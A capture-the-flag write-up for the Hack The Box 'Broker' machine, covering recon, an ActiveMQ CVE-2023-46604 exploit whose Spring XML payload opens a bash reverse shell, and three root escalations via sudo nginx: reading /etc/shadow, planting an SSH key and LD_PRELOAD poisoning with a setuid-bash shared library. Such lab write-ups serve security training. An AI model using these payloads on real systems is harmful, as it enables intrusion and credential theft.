 # 🧠 HTB: Broker (Easy, Linux)

## 📦 Box Info
- **Release Date:** 09 Nov 2023
- **IP:** 10.10.11.243
- **Points:** 20
- **OS:** Linux
- **Created by:** TheCyberGeek
- **Notable CVEs:** 
  - CVE-2023-46604 (ActiveMQ RCE)
  - CVE-2022-41347 (Zimbra-like LD_PRELOAD abuse)

---

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.243
nmap -p 22,80,1883,5672,8161,39751,61613,61614,61616 -sCV 10.10.11.243
```

- [80](HTTP): nginx, requires HTTP Basic Auth (`admin:admin`)
- 8161: Jetty webserver (ActiveMQ console)
- 61616: ActiveMQ 5.15.15 (vulnerable)
- MQTT, AMQP also running (ports 1883, 5672)

---

## 🐚 Shell as `activemq`

### 🧨 CVE-2023-46604 – ActiveMQ RCE

#### Step 1: Host malicious Spring XML

Edit `poc.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans 
       http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>bash -i &gt;&amp; /dev/tcp/10.10.14.6/9001 0&gt;&amp;1</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Host it:

```bash
python3 -m http.server
```

#### Step 2: Exploit

```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.14.6/poc.xml
```

#### Step 3: Catch Shell

```bash
nc -lnvp 9001
```

#### Upgrade Shell

```bash
script /dev/null -c bash
# [CTRL+Z]
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🧑‍💻 Shell as Root

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/nginx
```

---

### 🧬 Method 1: File Read via Root nginx

`nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Start nginx:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Read files:

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

---

### ✍️ Method 2: File Write via DAV PUT

Updated `nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Start server:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Write SSH key:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys \
    -d 'ssh-ed25519 AAAA... user@host'
```

SSH as root:

```bash
ssh -i id_ed25519 root@10.10.11.243
```

---

### ☠️ Method 3: LD_PRELOAD Poisoning

#### 1. Write `nginx.conf` with poisoned error_log

```nginx
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
    }
}
```

```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
curl localhost:1339/tmp/pwn.so
```

#### 2. Create malicious `.so`

```c
// pwn.c
#include <unistd.h>
#include <sys/types.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
}
```

```bash
gcc -fPIC -shared -o /tmp/pwn.so pwn.c -ldl
cp /bin/bash /tmp/rootshell
```

#### 3. Trigger Load

```bash
sudo -l
/tmp/rootshell -p
```

---

## 🏁 Flags

```bash
cat /home/activemq/user.txt
cat /root/root.txt
```
